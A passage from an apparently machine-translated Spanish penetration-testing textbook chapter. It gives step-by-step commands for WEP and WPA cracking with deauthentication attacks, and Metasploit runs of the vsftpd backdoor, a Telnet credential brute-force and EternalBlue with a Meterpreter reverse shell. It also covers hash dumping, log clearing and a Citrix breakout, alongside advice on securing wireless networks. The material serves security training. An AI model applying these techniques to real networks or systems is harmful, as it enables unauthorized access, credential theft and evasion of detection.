Para seguir las instrucciones de este capítulo, asegúrate de cumplir con los siguientes requisitos de hardware y software:

- Kali Linux
- Ventanas 7
- Router inalámbrico


## Ganando acceso

Las pruebas de penetración y el hackeo ético son temas apasionantes. A todo el mundo le entusiasma siempre la idea de hackear otro sistema, ya sea un ordenador o incluso una red inalámbrica. Los capítulos anteriores se centraron en recopilar suficiente información sobre un objetivo antes de lanzar un ataque. La fase de explotación del hackeo y las pruebas de penetración a veces puede ser un desafío.

Es muy importante recopilar la mayor cantidad posible de detalles sobre el objetivo. Este trabajo de investigación nos ayuda a determinar posibles exploits y una carga útil que podemos lanzar contra un sistema o red objetivo. A veces, cuando se lanza un exploit destinado a un sistema operativo en particular, Puedes que no funcione, y esto puede resultar frustrante. Una táctica que se puede adoptar es apuntar a los objetivos más fáciles de alcanzar en una red, es decir, intentar explotar y obtener acceso a sistemas y dispositivos que parezcan más fáciles y vulnerables a los protocolos TCP/IP que se pueden explotar fácilmente.

Un ejemplo es el servicio **vsftpd**, que exploramos en los capítulos anteriores y que se utilizó para acceder al objetivo a través de una interfaz de shell. Otro ejemplo es la vulnerabilidad **EternalBlue**, que se encuentra en el sistema operativo Windows. Durante la fase de análisis, asegúrate de realizar una evaluación exhaustiva de la vulnerabilidad en todos los dispositivos de la red de destino.

Empiece por atacar a los objetivos que parezcan más vulnerables y, por lo tanto, más fáciles de atacar, y luego pase a los que sean menos vulnerables y, por lo tanto, más difíciles de atacar. Para poner esto en contexto, imagine que se presenta a un examen escrito. El cuestionario tiene muchas preguntas difíciles que deben responderse en un período de tiempo determinado. En tal escenario, siempre es mejor responder primero las preguntas más fáciles y luego pasar a las más difíciles. Esto le dará más tiempo para responder las preguntas que es más probable que responda correctamente y maximizará la puntuación que obtendrá en el examen.

Hay muchos métodos y técnicas que un evaluador de penetración Puedes aplicar para obtener acceso a los sistemas, como los siguientes:

- Descifrado de contraseñas en línea y fuera de línea
- Descifrado de la **clave precompartida** (**PSK**) en una red inalámbrica
- Ingeniería social
- Realizar un ataque **Man-in-the-Middle** (**MITM**)
- Realizar un ataque de fuerza bruta en los protocolos de la capa de aplicación

Durante la fase de obtención de acceso, un evaluador de penetración suele realizar varios tipos de ataques que le ayudarán a obtener acceso a una red. Normalmente, se empieza por descifrar contraseñas en línea o fuera de línea. Una vez que se ha obtenido un nombre de usuario y una contraseña válidos, el siguiente paso es acceder al sistema de la víctima y aumentar los privilegios de usuario. Obtener un nivel más alto de privilegios de usuario permitirá la ejecución de cualquier aplicación y tarea en la máquina comprometida. El ocultamiento de archivos como el código malicioso está diseñado para garantizar que se cree una puerta trasera oculta y que se coloquen bombas lógicas (un tipo de virus que contiene un conjunto de instrucciones que se activan con la acción de un usuario). Por último, al desconectarse de una máquina comprometida, siempre es aconsejable cubrir las huellas. Cubrir las huellas es la última fase de las pruebas de penetración y se centra en eliminar los archivos de registro y las pruebas que indican que un atacante estuvo presente en el sistema o la red.

El siguiente es un diagrama de flujo típico para obtener acceso a un sistema:



En las próximas secciones, veremos varios métodos que podemos utilizar para ingresar a un sistema objetivo.


## Cracking de WEP

Al utilizar redes inalámbricas, los usuarios con un dispositivo compatible con IEEE 802.11, como una computadora portátil, pueden conectarse a un punto de acceso inalámbrico. Esto les permitirá acceder a los recursos de la red local, tal como lo harían si estuvieran conectados físicamente mediante un cable. Las redes inalámbricas brindan mucha comodidad a los usuarios, ya sea en el hogar o en un entorno corporativo.

De manera predeterminada, una red inalámbrica es abierta, lo que permite que cualquier persona con un ordenador portátil o un teléfono inteligente establezca una conexión. Esto genera inquietudes sobre la privacidad y la seguridad del usuario. El estándar de cifrado WEP se utilizó en las primeras generaciones de redes inalámbricas y todavía lo utilizan los usuarios domésticos y los administradores de TI.

El estándar de cifrado WEP utiliza el sistema de cifrado **Rivest Cipher 4** (**RC4**), que utiliza una **clave de 40 bits** para cifrar los datos. Cuando se desarrolló, se consideró que era muy seguro, pero en 2002 se habían descubierto múltiples puntos débiles en la seguridad del estándar. Un atacante podría obtener la clave de cifrado en pocas horas. Con la clave de 40 bits, un atacante podría capturar y descifrar el tráfico muy rápidamente, lo que comprometía la confidencialidad del estándar de cifrado WEP. En los estándares criptográficos modernos, se utiliza una clave de cifrado más grande para evitar este tipo de ataques al cifrado de datos.

Como profesional de la ciberseguridad en el campo de la seguridad ofensiva, es importante comprender las técnicas que debe aplicar al realizar el descifrado de WEP utilizando Kali Linux.

Realice los siguientes pasos para lograr esto:

1. Habilite el modo de monitoreo en su adaptador inalámbrico con el siguiente comando:

```markup
airmon-ng check kill
airmon-ng start wlan0

```

1. Realice un rastreo inalámbrico en los puntos de acceso cercanos hasta que haya descubierto su objetivo:

```markup
airodump-ng wlan0mon

```

Una vez que hayas encontrado tu objetivo, toma nota de tus valores BSSID, canal y ESSID.

1. Deja de usar airodump-ng pulsando en tu teclado *Ctrl* + *C* después de obtener los detalles y luego continúa con el siguiente paso.
2. Intenta una captura de paquetes para la red inalámbrica de destino:

```markup
airodump-ng --bssid <target BSSID value> -c <channel #> wlan0mon -w <output file>

```

Veamos qué hacen algunos de estos comandos:

- - ``--bssid``: Le permite especificar un punto de acceso particular mediante su valor BSSID (dirección de control de acceso al medio del punto de acceso)
  - ``-c``: Permite configurar las radios inalámbricas para que escuchen en un canal específico
  - ``-w``: Específico de la ubicación de salida y el nombre del archivo

1. Realizar un ataque de desautenticación en el objetivo.

Si se realiza un ataque de desautenticación en el punto de acceso de destino, se obligará a todos los clientes conectados a desvincularse. Una vez que los clientes se desconecten, intentarán volver a conectarse automáticamente al punto de acceso. Al hacerlo, se intenta capturar la clave WEP durante el intento de los clientes de volver a autenticarse:

```markup
aireplay-ng -0 0 -a <target's bssid> wlan0mon

```

Cuando hayas capturado la clave WEP (verás la notificación en la ventana en ejecución airodump-ng), puedes detener el ataque de desautenticación.

1. A continuación, intentemos descifrar el WEP y recuperar la clave secreta.

Una vez que haya capturado suficientes datos sobre la red inalámbrica de destino, deténgase airodump-ng. Al usar el ls -lcomando en la Terminal, verá un .caparchivo. En una nueva ventana de la Terminal, ejecute el siguiente comando:

```markup
aircrack-ng -b <bssid of the access point> output_file.cap

```

Además, Puedes utilizar el siguiente comando simple para lograr la misma tarea:

```markup
aircrack-ng output_file.cap

```

La siguiente captura de pantalla es un ejemplo del resultado esperado:



Sin embargo, su clave WEP será diferente según el valor que haya establecido el administrador del punto de acceso inalámbrico. La clave de salida se proporciona en formato hexadecimal, por lo que ahora Puedes tomar esta clave basada en hexadecimal y usarla para acceder al punto de acceso de destino.

Una vez que haya completado esta sección, ya podrá realizar el descifrado de WEP en redes inalámbricas. En la siguiente sección, analizaremos en profundidad cómo realizar técnicas de descifrado de WPA.


## Cracking de WPA

Dadas las vulnerabilidades de seguridad encontradas en WEP, WPA fue creado en 2002 como un estándar de seguridad inalámbrica mejorado para redes IEEE 802.11. WPA utiliza el **Protocolo de Integridad de Clave Temporal** (**TKIP**), que aplica el conjunto de códigos de cifrado RC4 para la privacidad de los datos entre el punto de acceso inalámbrico y los dispositivos cliente.


Además, posteriormente se desarrolló el **Acceso Protegido Wi-Fi 2** (**WPA2 ) para solucionar los fallos de seguridad de su predecesor. WPA2 utiliza el** **Estándar de Cifrado Avanzado** (**AES**) para el cifrado de datos en lugar del cifrado RC4. Además, WPA2 implementó el Modo Contador con **el Protocolo de Código de Autenticación** **de Mensajes en Cadena de Bloques de Cifrado** (**CCMP**), que sustituyó a TKIP.

Ahora, pasemos a la parte divertida: descifrar el WPA para obtener acceso a una red inalámbrica de destino:

1. Habilite el modo de monitoreo en su adaptador inalámbrico:

```markup
airmon-ng check kill
airmon-ng start wlan0

```

1. Realice un rastreo inalámbrico en un punto de acceso cercano hasta que haya descubierto su objetivo:

```markup
airodump-ng wlan0mon

```

Una vez que haya encontrado su objetivo, tome nota de sus valores BSSID, canal y ESSID. Deténgase airodump-ngdespués de obtener los detalles y luego continúe con el siguiente paso.

1. Intente una captura de paquetes para la red inalámbrica de destino:

```markup
airodump-ng --bssid <target BSSID value> -c <channel #> wlan0mon -w <output file>

```

1. Realizar un ataque de desautenticación en el objetivo.

Si se realiza un ataque de desautenticación en el punto de acceso de destino, se obligará a todos los clientes conectados a desvincularse. Una vez que los clientes se desconecten, intentarán volver a conectarse automáticamente al punto de acceso. Al hacerlo, se intenta capturar la clave WEP durante el intento de los clientes de volver a autenticarse:

```markup
aireplay-ng -0 0 -a <target's bssid> wlan0mon

```

Cuando haya capturado el protocolo de enlace WPA, como se muestra en la siguiente captura de pantalla, Puedes detener el ataque de desautenticación:



Usando *Ctrl* + *C*, detenga el ataque de desautenticación y continúe con el siguiente paso.

1. Para descifrar el WPA, vamos a utilizar una lista de palabras. Con **crunch**, puedes generar tu propia lista de palabras de contraseña personalizada. Además, las siguientes son las ubicaciones de varias listas de palabras que ya están preinstaladas en Kali Linux:



Una vez que hayamos encontrado una lista de palabras adecuada, podemos utilizar la aircrack-ngherramienta con el -wparámetro para especificar una lista de palabras de nuestra elección.

1. Para comenzar a descifrar la contraseña para WPA, utiliza el siguiente comando:

```markup
aircrack-ng output_file.cap -w <wordlist>

```

aircrack-ngIntentará realizar un ataque de diccionario utilizando la lista de palabras específica y se detendrá cuando encuentre la **clave, como se muestra en la siguiente captura de pantalla:**



A veces, una lista de palabras puede no contener la contraseña y el resultado puede no ser fructífero. Cree una lista de palabras personalizada con la herramienta **Crunch** o intente usar una lista de palabras del repositorio de GitHub [SecLists](https://github.com/danielmiessler/SecLists).

Ahora que ha completado esta sección sobre cómo descifrar la seguridad inalámbrica, echemos un vistazo a la siguiente sección, que cubre cómo proteger su red inalámbrica contra ataques cibernéticos.


## Cómo proteger su red de los ataques antes mencionados

Como vio en la sección anterior, un evaluador de penetración o un pirata informático malintencionado puede intentar piratear su red inalámbrica y obtener la clave secreta (contraseña). Tanto si es un estudiante que está tomando un curso de seguridad informática, un profesional de TI o simplemente un entusiasta, los temas que se tratan en esta sección son algunos métodos y técnicas que puedes utilizar para proteger tu red de este tipo de ataques.

En las siguientes secciones cubriremos los siguientes temas:

- Gestión de SSID
- Filtrado MAC
- El nivel de potencia de las antenas
- Contraseñas seguras
- Protección de redes inalámbricas empresariales

¡Vamos a sumergirnos!

## Gestión de SSID

Cuando compra un nuevo punto de acceso o enrutador inalámbrico, el **identificador de conjunto de servicios** (**SSID**) predeterminado suele ser el del fabricante. Por ejemplo, el SSID (nombre de red inalámbrica) predeterminado para un nuevo punto de acceso Linksys contendría el nombre Linksyscomo su SSID. Muchos fabricantes hacen esto para ayudar al usuario a identificar rápidamente su red inalámbrica al configurar un nuevo punto de acceso. Sin embargo, muchas personas y organizaciones utilizan el SSID predeterminado.

Dejar el SSID predeterminado como está Puedes ser un problema de seguridad. Supongamos que adquiere un nuevo punto de acceso Linksys para su hogar u organización y, durante el proceso de configuración, decide dejar las configuraciones predeterminadas para el SSID del dispositivo. La palabra Linksys sería parte del nombre de la red. Como evaluador de penetración que realiza un escaneo inalámbrico en busca de puntos de acceso cercanos, ver el nombre de un fabricante puede ayudar a perfilar el dispositivo e investigar vulnerabilidades específicas para el Linksyspunto de acceso.

Imagínate ver la palabra Netgear mientras buscas puntos de acceso inalámbricos. Simplemente puedes hacer una búsqueda en Google para obtener una lista de vulnerabilidades de seguridad y configuraciones incorrectas conocidas de esta marca en particular, como se muestra en la siguiente captura de pantalla:



En pocas palabras, no deberías usar ningún tipo de nombre que pueda atraer a los piratas informáticos o revelar la identidad del punto de acceso y la organización. A menudo veo que las empresas crean SSID con el nombre de su organización y, a veces, incorporan el propósito del SSID como parte del nombre.

Un ejemplo de esto es el uso del nombre CompanyName_Admin. Cualquier evaluador de penetración que esté realizando cualquier tipo de auditoría de seguridad inalámbrica se centrará inicialmente en dichas redes.

Ocultar un SSID es una buena práctica, pero aún se puede descubrir utilizando técnicas de rastreo inalámbrico como airodump-ng, como se describe en las secciones anteriores. Además, en un sistema basado en Windows, Puedes utilizar **NetStumbler** ( www.netstumbler.com ) e **inSSIDer** ( https://www.metageek.com/products/inssider/ ).

En la siguiente sección, analizaremos el propósito del filtrado MAC en una red inalámbrica.

## Filtrado MAC

Cada punto de acceso administrado y su enrutador inalámbrico proporcionan un tipo básico de control de acceso para los dispositivos conectados. Habilitar el filtrado MAC en un punto de acceso le permite especificar una lista de dispositivos permitidos y restringidos que pueden y no pueden conectarse al punto de acceso. Sin embargo, existen técnicas, todas las cuales se trataron en el capítulo anterior, que permiten a un evaluador de penetración capturar una lista de dispositivos autorizados (sus direcciones MAC) y realizar suplantaciones para obtener acceso no autorizado. Sin embargo, esta función aún debe aplicarse, ya que tener algún tipo de seguridad es mejor que no tener ninguna seguridad en su red.

En la siguiente sección, cubriremos el concepto de niveles de potencia en antenas.

## Niveles de potencia para antenas

Algunos puntos de acceso tienen una función dentro de su sistema operativo o firmware que le permite ajustar manualmente los niveles de potencia de las antenas. Al reducir el nivel de potencia de la antena, el alcance de transmisión de la señal inalámbrica se reducirá en radio. Establecer los niveles de potencia al 100 % garantizará que haya una cobertura máxima para la señal. Esta función puede ser útil si le preocupa que otros puedan ver e interceptar sus datos en la red inalámbrica.

Ahora que entendemos el papel que juegan los niveles de potencia en las antenas, cubriremos los aspectos esenciales para crear contraseñas seguras.

## Contraseñas seguras

El descifrado de una contraseña de usuario suele depender de la complejidad de la contraseña en sí. Muchos usuarios tienden a establecer frases de contraseña sencillas y fáciles de recordar en sus dispositivos, especialmente en una red inalámbrica. Sin embargo, una contraseña compleja creará dificultades para el evaluador de penetración o el hacker. Las contraseñas complejas tienen las siguientes características:

- Contienen caracteres en mayúsculas
- Contienen caracteres en minúscula.
- Contienen números
- Contienen símbolos específicos
- Tienen más de 12 caracteres de longitud.
- No contienen nombre
- No contienen fecha de nacimiento
- No contienen el número de matrícula del vehículo.

El siguiente es un ejemplo de una contraseña compleja generada por **LastPass** ( www.lastpass.com ), un administrador de contraseñas:



La idea es garantizar que nadie pueda adivinar o comprometer su contraseña fácilmente. Si un usuario malintencionado logra comprometer las credenciales de usuario de otra persona, el atacante puedes causar estragos en la red y/o la vida personal de la víctima.

En la siguiente sección, describiremos técnicas que se pueden implementar en una red empresarial para mejorar su postura de seguridad.

## Protección de redes inalámbricas empresariales

Una red inalámbrica empresarial debe utilizar las siguientes técnicas para reducir el riesgo de ataques a la red inalámbrica:

- Implementar un **sistema de prevención de intrusiones inalámbricas** (**WIPS**) en cada red inalámbrica propiedad de la organización y administrada por ella.
- Asegúrate de que todos los dispositivos cableados e inalámbricos tengan el firmware y los parches más recientes instalados.
- Asegúrate de que los dispositivos y las configuraciones cumplan con las normas del **Instituto Nacional de Estándares y Tecnología** (**NIST**). Consulte la sección *sobre cómo establecer redes de seguridad inalámbricas sólidas* en el marco del NIST en https://csrc.nist.gov/publications/detail/sp/800-97/final para obtener más información.
- Siempre que sea posible, implemente la autenticación multifactor para acceder a la red corporativa.
- Implementar el método basado en certificado de **Protocolo de autenticación extensible** (**EAP**) — **Seguridad de la capa de transporte** (**TLS**) para garantizar la confidencialidad y autenticidad de la comunicación inalámbrica.
- Utiliza WPA2-Enterprise con encriptación AES.
- Implementar una red inalámbrica para invitados aislada.

La implementación de estas técnicas y controles puede ayudar a reducir los riesgos de seguridad en una red empresarial. En la siguiente sección, cubriremos los pasos que debemos seguir para configurar y proteger una red inalámbrica.


## Configuración de ajustes de seguridad inalámbrica para proteger su red

En esta sección, analizaremos cómo configurar las funciones de seguridad inalámbrica en su punto de acceso y enrutador inalámbrico para que pueda proteger su red.

Para este ejercicio, estoy utilizando un enrutador inalámbrico Linksys EA6350. Ten en cuenta que todos los enrutadores y puntos de acceso inalámbricos tienen las mismas funciones en su interfaz de administración; sin embargo, la **interfaz gráfica de usuario** (**GUI**) de cada fabricante y dispositivo puede variar.

¡Empecemos!

1. Necesitará iniciar sesión en su punto de acceso o enrutador inalámbrico.
2. Una vez que haya iniciado sesión, haz clic en la pestaña **Inalámbrica** dentro de la interfaz de usuario. Aquí podrá cambiar el nombre de la red (SSID), establecer una contraseña compleja, configurar un modo de seguridad y transmitir el SSID, como se muestra en la siguiente captura de pantalla:



El uso de las siguientes pautas le ayudará a mejorar la seguridad de su red inalámbrica:

- - Cambie el SSID (nombre de red) a algo que no atraiga miradas indiscretas.
  - Ocultar (transmitir) el SSID.
  - Crea una contraseña compleja. Si tienes dificultades, prueba a usar un generador de contraseñas en línea.

Cada punto de acceso y enrutador inalámbrico moderno permite varios modos de seguridad, como los siguientes:

- - **Ninguno**: deshabilita la autenticación.
  - **WEP**: utiliza el estándar de cifrado WEP.
  - **WPA Personal**: utiliza el estándar de cifrado WPA y permite configurar una **clave precompartida** (**PSK**) en el punto de acceso. Por lo tanto, cualquier dispositivo que requiera acceso a la red inalámbrica deberá proporcionar la PSK.
  - **WPA Enterprise**: este modo aplica el estándar de cifrado WPA, pero tenga en cuenta que el punto de acceso almacena las credenciales del usuario en WPA Personal. WPA Enterprise consulta un servidor central **de autenticación, autorización y contabilidad** (**AAA**) para verificar el acceso del usuario a la red inalámbrica.
  - **WPA2 Personal**: utiliza el estándar de cifrado WPA2.
  - **WPA2 Enterprise**: utiliza el estándar de cifrado WPA2 con el servidor AAA.

Puedes optar por desactivar la transmisión SSID para ocultar su red.

1. A continuación, debería ver otra subpestaña que le permite configurar **el filtrado MAC** .

1. Habilite la función de filtrado de direcciones MAC. Una vez habilitada, tendrá la opción de agregar direcciones MAC a una lista de permitidos o denegados, como se muestra en la siguiente captura de pantalla:



1. Por último, deshabilite la función **de configuración protegida de Wi-Fi**, como se muestra en la siguiente captura de pantalla:



WPS tiene vulnerabilidades de seguridad conocidas y no debe utilizarse en entornos seguros.

Una vez completado este ejercicio, ya podrá configurar y preparar una red inalámbrica. En la siguiente sección, analizaremos los aspectos básicos para aprovechar los sistemas perimetrales.


## Explotación de sistemas perimetrales vulnerables con Metasploit

Explotar sistemas objetivo en una red puede ser a veces una tarea complicada. Los exploits son simplemente fragmentos de código diseñados para aprovechar una vulnerabilidad de seguridad (debilidad). En el Capítulo 5, *Recopilación pasiva de información*, el Capítulo 6, *Recopilación activa de información* y el Capítulo 7, *Cómo trabajar con escáneres de vulnerabilidades*, analizamos en profundidad cómo establecer fallas de seguridad en sistemas objetivo utilizando varias herramientas como Nmap y Nessus. En esta sección, vamos a aprovechar la información y el conjunto de habilidades que hemos desarrollado hasta ahora y realizar la explotación utilizando el marco Metasploit.

Durante este ejercicio, utilizaremos nuestra máquina Kali Linux como atacante y la máquina Metasploitable como objetivo. Comencemos:

1. Realicemos un **análisis de la versión del servicio** en el destino mediante Nmap. Esto nos ayudará a determinar los puertos, protocolos y versiones del servicio que se están ejecutando. Ejecuta el comando **`nmap -sV <target IP addr>`**:



Como podemos ver, hay muchos servicios en el objetivo.

2. Inicia el marco **Metasploit** habilitando el servicio de base de datos **PostgreSQL**. Luego, inicializa el marco Metasploit y ejecuta los siguientes comandos dentro de una ventana de terminal:

```markup
service postgresql start 
msfconsole

```

El marco de Metasploit debería tardar uno o dos minutos en inicializarse. Cuando esté listo, verás un divertido banner de bienvenida y la **interfaz de línea de comandos** (**CLI**).

Según los resultados de Nmap, el puerto 21está abierto y está ejecutando el **Protocolo de transferencia de archivos** (**FTP**). Al realizar el análisis de la versión del servicio, podemos determinar si está ejecutando un demonio **vsftpd 2.3.4** . En la interfaz de Metasploit, Puedes buscar módulos (escáneres, exploits, etc.) utilizando el searchcomando, seguido de una palabra clave o cadena.

1. En tu consola Metasploit, busca cualquier módulo útil que pueda ayudarnos a comprometer el servidor FTP en la máquina de destino ejecutando el siguiente comando:

```markup
search vsftpd

```

2. Metasploit nos proporcionará una lista de resultados que cumplen con los criterios de búsqueda. Debería ver que la consola muestra un exploit basado en Unix llamado vsftpd_234_backdoor. Para utilizar este exploit en nuestro objetivo, utiliza la siguiente secuencia de comandos:

```markup
msf5 > use exploit/unix/ftp/vsftpd_234_backdoor 
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > set RHOSTS 10.10.10.100 
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > exploit

```

En tu entorno de laboratorio, el objetivo utiliza la dirección IP 10.10.10.100. Asegúrate de verificar la dirección IP de tu dispositivo de destino antes de configurar el valor RHOSTS (hosts remotos) en Metasploit. Además, hay muchos módulos que requerirán que configures un objetivo remoto. Puedes utilizar el comando `setg` para configurar el objetivo globalmente.

3. Ejecutar el comando `exploit`. Metasploit intentará enviar el código de explotación al objetivo. Una vez que lo consiga, se creará un shell. Un shell nos permite ejecutar comandos de forma remota desde nuestra máquina atacante en el objetivo, como se muestra en la siguiente captura de pantalla:



4. En este punto, cualquier comando que se ejecute en la consola se ejecutará en el destino. Ejecuta el uname -acomando para verificar e imprimir la información del sistema:



A menudo, cuando se realiza un escaneo de puerto simple tanto en sistemas públicos como internos, el puerto 23suele estar abierto para la administración remota. Sin embargo, el puerto 23es el puerto predeterminado que se utiliza para el protocolo Telnet. Telnet es un protocolo inseguro que permite a un usuario acceder de forma remota a una máquina a través de una red y a todo el tráfico que pasa entre el usuario. Cualquier dispositivo habilitado para Telnet no está cifrado y es susceptible a ataques MITM donde un atacante puede capturar las credenciales del usuario con bastante facilidad.

1. Utilicemos el searchcomando para buscar un módulo útil que permita comprobar si las credenciales de usuario son válidas en un dispositivo habilitado para Telnet. Para comenzar, utiliza el siguiente comando:

```markup
search telnet

```

2. Como es habitual, en la consola se presentará una lista de resultados que cumplen con los criterios de búsqueda. Para este ejercicio, vamos a utilizar un escáner específico para comprobar si hay cuentas de usuario validadas:

```markup
msf5 > use auxiliary/scanner/telnet/telnet_login

```

3. A continuación, configure sus hosts remotos:

```markup
msf5 auxiliary(scanner/telnet/telnetlogin) > set RHOSTS 10.10.10.100

```

4. Si tiene una lista de palabras que contiene diferentes nombres de usuario, utiliza el siguiente comando (especifique la ruta del archivo):

```markup
msf5 auxiliary(scanner/telnet/telnetlogin) > set USER_FILE <username word list>

```

Opcionalmente, si tiene una lista de contraseñas, utiliza el siguiente comando:

```markup
msf5 auxiliary(scanner/telnet/telnetlogin) > set PASS_FILE <wordlist>

```

5. Sin embargo, si no tienes ninguna lista de palabras, no hay problema. Puedes especificar un nombre de usuario y una contraseña individuales mediante los siguientes comandos:

```markup
msf5 auxiliary(scanner/telnet/telnetlogin) > set USERNAME uname msf5 auxiliary(scanner/telnet/telnetlogin) > set PASSWORD word

```

6. Una vez que haya terminado, utiliza el comando `run` para ejecutar el auxiliarymódulo:

```markup
 msf5 auxiliary(scanner/telnet/telnetlogin) > run


```

Asegúrate de esperar unos segundos hasta que se inicie el escáner. En ocasiones, no verás los resultados inmediatamente en la pantalla.

Usamos el comando `run` para ejecutar un auxiliarymódulo y el exploitcomando para ejecutar un exploit dentro de Metasploit.

La siguiente captura de pantalla indica que se encontraron un nombre de usuario y una contraseña válidos:



Como ya hemos mencionado, puedes usar **Crunch**/usr/share para generar listas de palabras personalizadas según tus preferencias. Además, en Kali Linux hay un conjunto de listas de palabras en el directorio:


Recuerde que, al realizar un ataque de contraseña o intentar descubrir credenciales de usuario válidas, la tarea puede llevar mucho tiempo y no siempre ser a tu favor. Sin embargo, esto ilustra la importancia de la fase de reconocimiento (recopilación de información) de las pruebas de penetración. Cuantos más detalles podamos reunir sobre el objetivo, más podremos limitar una amplia gama de ataques a los específicos para un sistema o una infraestructura de red en particular.

A continuación, intentaremos explotar el sistema y obtener acceso a él, es decir, Microsoft Windows.

## Explotación de EternalBlue

Intentemos explotar un sistema Windows y obtener un shell. Para este ejercicio, se puede utilizar un sistema operativo Windows 7, 8, 8.1 o 10 como máquina objetivo/víctima. El siguiente es un diagrama de la topología de mi laboratorio que muestra las asignaciones de IP para las máquinas del atacante y la víctima:



Si su esquema de IP es diferente, asegúrate de registrar las direcciones IP de cada máquina antes de continuar, ya que las necesitará. Comencemos:

1. En primer lugar, intentemos ejecutar un análisis de vulnerabilidades en el sistema Windows de destino. El siguiente fragmento es el resultado de utilizar el nmap --script vuln 10.10.10.19comando:



El área resaltada indica que nuestro objetivo es vulnerable a un ataque de ejecución de código remoto para el ID del boletín de seguridad de Microsoft ms17-010, conocido como **EternalBlue** . Investigaciones posteriores sobre esta vulnerabilidad nos indican que el objetivo es vulnerable a ataques de WannaCry, Petya y otro malware.

La vulnerabilidad EternalBlue permite a un atacante realizar ejecución remota de código en un servidor Microsoft SMBv1.

1. Dentro de la consola **de Metasploit Framework** (**MSF**), use el search ms17-010comando para filtrar los resultados de los exploits de EternalBlue, como se muestra en la siguiente captura de pantalla:



1. La consola MSF ha devuelto algunos resultados. Utilizaremos el ms-17-010_eternalblueexploit y la **carga útil TCP inversa de Meterpreter** para intentar una conexión inversa (shell inversa) desde la máquina de la víctima a la máquina del atacante. Para lograr esta tarea, utiliza los siguientes comandos, como se muestra en la siguiente captura de pantalla:



1. Después de ejecutar el exploit, tendrás un meterpretershell meterpreterque te permitirá comunicarte sin problemas entre tu máquina atacante y el sistema operativo de la víctima.

Según SANS ( www.sans.org ), Meterpreter es una carga útil dentro del marco Metasploit que proporciona control sobre un sistema objetivo explotado, ejecutándose como una DLL que se ha cargado dentro de cualquier proceso en una máquina objetivo.

Usando este hashdumpcomando, podrás recuperar los hashes de contraseñas de todas las cuentas de usuario almacenadas localmente en la máquina de la víctima:



Los nombres de usuario de las cuentas siempre se muestran en texto simple, como se muestra en la captura de pantalla anterior.

El hashdumpcomando de Meterpreter se utiliza para recuperar cuentas de usuario en un sistema Windows. Una cuenta de usuario consta de tres componentes: el **identificador de seguridad** (**SID**), el nombre de usuario y la contraseña. La contraseña se convierte en un hash NTLM y se almacena en las versiones más nuevas de Windows. En una versión anterior de Windows, como Windows XP, la contraseña se almacena mediante el **Administrador de LAN** (**LM**). Por lo tanto, el sistema operativo Windows nunca almacena realmente la contraseña de una cuenta de usuario; en su lugar, almacena el valor hash .

Los siguientes son algunos comandos útiles que podemos utilizar dentro del meterpretershell:

- - screenshot:Captura una captura de pantalla del escritorio de la víctima.
  - getsystem:Intenta una escalada de privilegios en el objetivo.
  - clearev: Borra los registros de eventos
  - sysinfo:Recopila información sobre el objetivo.

1. Para obtener un shell en la máquina de la víctima, escriba shelly presione *Enter* :



Ahora tendrás una interfaz de símbolo del sistema de Windows en tu máquina Kali Linux. Ahora podrás ejecutar comandos de Windows de forma remota.

Ahora que hemos cubierto brevemente la explotación, obtengamos acceso mediante sistemas de acceso remoto .


## Pruebas de penetración de sistemas de acceso remoto basados en Citrix y RDP

En esta sección, analizaremos cómo realizar pruebas de penetración en dos sistemas de acceso remoto populares en la mayoría de los entornos de TI: Citrix y **el Protocolo de Escritorio Remoto** (**RDP**) de Microsoft.

Profundicemos en las pruebas de penetración de Citrix y RDP y en cómo obtener acceso.

## Pruebas de penetración de Citrix

La mayoría de nosotros probablemente haya oído hablar del RDP de Microsoft, que permite a un usuario acceder de forma remota a otra máquina Windows a través de una red dentro de una **interfaz gráfica de usuario** (**GUI**). Citrix es como el RDP, pero mucho mejor en términos de rendimiento y al mismo tiempo ofrece una interfaz de usuario interactiva.

Muchas organizaciones utilizan los servicios y productos de Citrix para distribuir de manera eficiente el acceso a las aplicaciones dentro de una organización. Un ejemplo de uso de Citrix es la ejecución de aplicaciones dentro del centro de datos privado de una organización. Con Citrix, los administradores de TI pueden proporcionar acceso a los usuarios de esas aplicaciones. Cada usuario necesitaría un navegador web moderno para acceder a una interfaz de escritorio virtual o acceder de manera centralizada a las aplicaciones en el centro de datos. Este método elimina la necesidad de instalar aplicaciones de software en la computadora de cada empleado. Comencemos:

1. Podemos utilizar el script Nmap NSE, citrix-enum-apps, para descubrir y extraer aplicaciones. El siguiente es un ejemplo de uso del script en Nmap:

```markup
nmap -sU --script citrix-enum-apps <citrix server IP address>

```

1. Además, Puedes especificar -p 1604que Citrix WinFrame utiliza puertos TCP y UDP 1604.
2. Una vez que haya encontrado una máquina Citrix, Puedes intentar conectarse a las aplicaciones publicadas iniciando sesión mediante la siguiente URL:

```markup
http://<server IP>/lan/auth/login.aspx

```

1. Una vez que hayas iniciado sesión, haz clic en una aplicación para descargar un archivo `launch.ica` en tu escritorio. Una vez que se haya descargado el archivo, ábrelo con el Bloc de notas u otro editor de texto.

2. Busca un parámetro llamado `InitialProgram` que apunte a la aplicación LIFE UAT. Cambia el parámetro a `InitialProgram=explorer.exe` y guarde el archivo.

3. Haz doble clic en el archivo recién guardado para abrir el explorador del servidor Citrix. Esto nos permitirá leer el archivo `lan/auth/login.aspx` y otros archivos confidenciales.

4. Una vez que tengas una terminal Citrix, el entorno puede estar restringido (pantalla en blanco). Abre **el Administrador de tareas** y haz clic en **Archivo** | **Nueva tarea**. Se abrirá la ventana de nueva tarea. Escribe `explorer.exe` y haz clic en **Aceptar**.

5. Dentro del Explorador de Windows, navegue hasta el directorio que contiene todos .aspxlos archivos para confirmar que está en el servidor Citrix.

Esta técnica permite que un usuario salga del entorno virtualizado **de Citrix**. En la siguiente sección, realizaremos pruebas de penetración en Microsoft RDP e intentaremos obtener acceso.

Ahora que has completado esta sección, intentemos explotar uno de los servicios de acceso remoto más populares en un entorno empresarial, RDP de Microsoft.

## Irrumpiendo en RDP

El RDP de Microsoft proporciona una interfaz gráfica de usuario para que el usuario establezca una conexión con un sistema basado en Windows a través de la red. Muy a menudo, los administradores de sistemas habilitan el servicio RDP en sus máquinas cliente y servidor en una organización para facilitar el acceso. Con RDP habilitado en un dispositivo, un administrador de sistemas no necesita ir físicamente a la ubicación geográfica de un sistema para verificar sus configuraciones o realizar ajustes en el sistema operativo. Todo lo que tiene que hacer es simplemente iniciar sesión mediante RDP. Este protocolo hace que el trabajo de los profesionales de TI sea un poco más fácil y eficiente.

